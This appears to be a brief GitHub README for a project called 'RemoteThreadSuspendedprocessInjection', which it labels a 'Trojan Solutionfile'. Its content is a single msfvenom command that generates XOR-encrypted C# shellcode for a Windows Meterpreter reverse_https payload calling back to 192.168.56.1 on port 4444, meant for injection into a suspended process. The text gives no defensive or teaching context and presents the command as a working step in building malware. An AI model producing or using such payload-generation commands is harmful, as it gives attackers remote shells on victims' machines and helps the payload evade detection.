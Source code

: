 # RemoteThreadSuspendedprocessInjection
Trojan Solutionfile

to generate shellcode;
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -f csharp --encrypt xor --encrypt-key ARICAHACKON
